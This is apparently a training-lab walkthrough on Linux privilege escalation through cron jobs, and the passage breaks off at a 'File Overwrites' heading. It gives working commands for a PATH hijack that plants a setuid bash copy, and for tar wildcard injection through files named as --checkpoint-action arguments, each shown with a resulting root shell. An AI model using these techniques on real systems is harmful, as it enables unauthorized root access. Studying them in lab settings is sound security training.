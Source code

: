 
When we have access to a machine one thing we can check is what `cron jobs` the machine is running. There are several places we can read this info from, and the most common place is `etc/crontab`

```bash
TCM@debian:~$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root overwrite.sh
* * * * * root /usr/local/bin/compress.sh
```

We see that there are two processes that are run every minute as `root`, which can be exploited to gain root access.

## Paths

We can see there is a binary named `overwrite.sh` is being run using a relative path. If we look at the `$PATH` variables we can see the first location is `/home/user`. We can first check wether there is such a file in that directory.

```bash
TCM@debian:~$ ls -la /home/user/
total 48
drwxr-xr-x  5 TCM  user 4096 Jun 18  2020 .
drwxr-xr-x  3 root root 4096 May 15  2017 ..
-rw-------  1 TCM  user  801 Jun 18  2020 .bash_history
-rw-r--r--  1 TCM  user  220 May 12  2017 .bash_logout
-rw-r--r--  1 TCM  user 3235 May 14  2017 .bashrc
drwx------  2 TCM  user 4096 Jun 18  2020 .gnupg
drwxr-xr-x  2 TCM  user 4096 May 13  2017 .irssi
-rw-------  1 TCM  user  137 May 15  2017 .lesshst
-rw-r--r--  1 TCM  user  212 May 15  2017 myvpn.ovpn
-rw-------  1 TCM  user   11 Jun 18  2020 .nano_history
-rw-r--r--  1 TCM  user  725 May 13  2017 .profile
drwxr-xr-x 10 TCM  user 4096 Jun 18  2020 tools
```

We can see that there is no such file. Since we have write access to this directory, we can create a file as follow and give it executable rights.

```bash
TCM@debian:~$ echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash;' > /home/user/overwrite.sh
TCM@debian:~$ cat overwrite.sh 
cp /bin/bash /tmp/bash; chmod +s /tmp/bash;
TCM@debian:~$ chmod +x overwrite.sh
TCM@debian:~$ ls -l
total 12
-rw-r--r--  1 TCM user  212 May 15  2017 myvpn.ovpn
-rwxr-xr-x  1 TCM user   44 Jun 11 07:56 overwrite.sh
drwxr-xr-x 10 TCM user 4096 Jun 18  2020 tools
```

Now we just got to wait for a while and check whether `bash` has been copied over to the `/tmp` directory. Once it has, we simply need to run it with the `-p` flag.

```bash
TCM@debian:~$ ls /tmp/ -la
total 196
drwxrwxrwt  2 root root   4096 Jun 11 07:58 .
drwxr-xr-x 22 root root   4096 Jun 17  2020 ..
-rw-r--r--  1 root root 181544 Jun 11 07:58 backup.tar.gz
-rw-r--r--  1 root root     29 Jun 11 07:58 useless

TCM@debian:~$ ls /tmp/ -la
total 1108
drwxrwxrwt  2 root root   4096 Jun 11 07:59 .
drwxr-xr-x 22 root root   4096 Jun 17  2020 ..
-rw-r--r--  1 root root 181544 Jun 11 07:59 backup.tar.gz
-rwsr-sr-x  1 root root 926536 Jun 11 07:59 bash
-rw-r--r--  1 root root     29 Jun 11 07:58 useless

TCM@debian:~$ /tmp/bash -p
bash-4.1# whoami
root
```


## Wildcards

Now let's have a look at the other cron job that is running every minute.

```bash
TCM@debian:~$ cat /usr/local/bin/compress.sh 
#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *
TCM@debian:~$ ls -la /usr/local/bin/compress.sh 
-rwxr--r-- 1 root staff 53 May 13  2017 /usr/local/bin/compress.sh
```

Since we do not have write permission to the file, we cannot edit it. However, this uses a wildcard which we can use for injection. `tar` has the following two flags:

- `--checkpoint`: display progress messages every NUMBERth record (default 10)
- `--checkpoint-action=ACTION`: execute ACTION on each checkpoint

We can create two files with these flags as the name and running a custom binary as the action.

```bash
TCM@debian:~$ echo 'cp /bin/bash /tmp/bash_new; chmod +s /tmp/bash_new' > runme.sh
TCM@debian:~$ chmod +x runme.sh
TCM@debian:~$ touch /home/user/--checkpoint=1
TCM@debian:~$ touch /home/user/--checkpoint-action=exec=sh\ runme.sh
TCM@debian:~$ ls -l
total 16
-rw-r--r--  1 TCM user    0 Jun 11 08:33 --checkpoint=1
-rw-r--r--  1 TCM user    0 Jun 11 08:34 --checkpoint-action=exec=sh runme.sh
-rw-r--r--  1 TCM user  212 May 15  2017 myvpn.ovpn
-rwxr-xr-x  1 TCM user   44 Jun 11 07:56 overwrite.sh
-rwxr-xr-x  1 TCM user   51 Jun 11 08:22 runme.sh
drwxr-xr-x 10 TCM user 4096 Jun 18  2020 tools
```

Now when the `tar` command is run via the cron job, the executed command looks something like this:

`tar czf /tmp/backup.tar.gz --checkpoint=1 --checkpoint-action=exec=sh runme.sh`

Which would execute out binary in `/home/user` as root, giving us a copy of bash with the sticky bit set.

```bash
TCM@debian:~$ ls -l /tmp/
total 2012
-rw-r--r-- 1 root root 181546 Jun 11 08:41 backup.tar.gz
-rwsr-sr-x 1 root root 926536 Jun 11 08:41 bash
-rwsr-sr-x 1 root root 926536 Jun 11 08:41 bash_new
-rw-r--r-- 1 root root     29 Jun 11 07:58 useless

TCM@debian:~$ /tmp/bash_new -p
bash_new-4.1# whoami
root
```


## File Overwrites

